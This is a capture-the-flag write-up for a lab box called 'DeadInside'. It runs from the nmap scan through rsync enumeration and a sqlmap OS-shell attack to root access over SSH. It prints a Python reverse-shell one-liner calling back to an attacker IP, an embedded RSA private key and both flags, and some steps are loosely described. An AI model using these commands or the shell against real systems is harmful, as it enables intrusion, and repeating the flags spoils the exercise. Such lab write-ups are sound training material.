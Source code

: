 # DeadInside

## Enumeration

└─$ nmap -A -p- -sC -T4 10.10.250.34 -oX nmap.out
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 11:10 BST
Nmap scan report for 10.10.250.34
Host is up (0.037s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Exploitation

### I download all the files that I found

└─$ rsync -av --list-only rsync://10.10.250.34:873/
Conf All Confs

└─$ rsync -av --list-only rsync://10.10.250.34:873/Conf/
...
access.conf

└─$ rsync -av --list-only rsync://10.10.250.34:873/Conf/access.conf access.conf
cat access.conf 

### I've changed the contents of the webapp.ini file because on the website it says something like "keep the door closed" and in the file a door field is here with writing closed.

webapp.ini

door = opened

### Exploit the sql database to got a shell as rick

sqlmap -u http://10.10.250.34/door/config.php --level 5 --risk 3 --batch -D db --os-shell --forms
```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.37.214",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### upload pentestMonkey in the box, reverseshell to get a shell as rick

## User FLAG

```cat /home/rick/user.txt``` : EPI{W3_r_73h_w4lk1n9_D34D}

## Privilege Escalation

### linpeas = tcpdump

tcpdump -i lo -w file.cap
```bash
cat file.cap :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAtb/gJ/0hjWELlcYLzexponv3FWbz1r4g9w4htwEWqvbFfoxb
JKPi0xzn+gTEqi8I0uKW+gILfRG03gtv2RrMYPNK2exLuWqnb9ZPyLD3xETtollU
lR5DbWiEAtIFLOItdtXrP7hF0fi2Vc3H+4bFEhLPHzgwH068Xs5n+YviOFz4XOtW
DZOEA6XrpqcxPaMhksCcTPi9clvrioOyKEpnXTXQzWuma0pckclYvbh4vEwQp5n0
/rpgEMT7MRMT3CsDEfZOS2oAOfswc9WzDlbrQ7ghuHk2EMHrA/sI5M0N4GWeE12v
lld3CAKWp9MkB9g84qJdmt5QFk4tLYh08qaaeQIDAQABAoIBAHww5oysrXab73yi
XYKSnwQGTSn0tX3xYTkwEN2qAsFD6mO0qLr6uY2kXOc8xt27Uf44Ew42w37s0HhB
vGXPqAQ/etA6ZOwH8u26tb3fHw6gQvkCrYdPrKdgGYSL2jl3O7XOKvfZhOwbVQyA
lrxKtPLKo3kjvc5G0PS/edDNQwFbbjA0zf43GOFfW/ahOQu82iVfkDtrjmTnqB5/
O4pjmkNuTR9E6BStL5vZJoLK0W5lc9bgHa1TgyRzkK8iKKen+kohWrJUjQnK0f8z
/LTZuNwuOWZ60ckaQPJhAqdRbXOJ5gm0r9hStSN+ncKOYlLSdFz9Opskp4aDTGQa
zEzzjGECgYEA6VFeVzL2UcP+JCgtpBZHpRNUiCO7yjvfLFIeeDJKY1sKefLSz4mb
KiSFodWf1nsZydhRM25pXWfk17X7up/ocgs8gCkOQAiYM8AkzZ60egiehPD4Pv4h
cPJMSNEoq1cTlOJFmmPMk5dwj8kp12IkSgFNlLRd7vD9yVJbkC1MP20CgYEAx2sd
awpIu7T4P+ttFGQi+/nrNNTZ4fr9IrMK7VObuF9HG3YH3t1DkEOqk5zerYVVP9J5
bIbsSv9dBysWqe6Ftrtzrk5bhpRIy4E/etEoMGqzmMA1SZkI8P5E9AzN/F03C2xq
p9s2fexqdf5RpdGujpSJda0fZki01jDznHUjg70CgYEAmk0zxRtxB5ZE5wijVpdd
fnCQQRDQyuhZqegNOpSX2amF/ix2+sYYlgBdWC/9a00yOukSmp70k8936qjx9/R1
N6bythdw0yxb7C2wqUPCO8qje2wZ4R8UYqv7g1TAPsBxtM8IFRjXXOyUhqMVRtoj
AcZm1meKj9FVJeWPpIQwnukCgYB7UGN6o3tih3/TlvN23o07n8mwe8bYFOqfoHOr
Wj46/r/r3Ur0p4J2HUHH0gNo7cBPnQl08OIBZnPSUPTM1DBfVP8t1EqIp/1zylLE
0b22YuT4GjNZdYav76wX9isSWVoGeF5jugyyRZV3rXIzxbvZc0SlPg7ioycgJFkg
cNcrSQKBgB2vGOzFapRM2zfukNXmtHLrO/+U6yXwj+VuJtDO/lwdORCaQGNEobs4
U8NEWvUEM0vdvJCKwpFLK784YKug4LUhJlc1DYRYxF9Ct+er/mQKuFd/tiSvKoqz
gOFPkMMr6+LJjvzfFZqaGwHFuT0W44THPSRNfuWaoTqnF/7KhrWy
-----END RSA PRIVATE KEY-----

chmod 600 id_rsa
ssh -i id_rsa root@<IP>

cd /root
```
## Root FLAG

```cat root.txt``` : EPI{9R0w1N9_Up_12_93771n9_u53D_70_73H_W0rld}

### Write up to help me for the box
source : https://related.cupprs.com/metamorphosis/
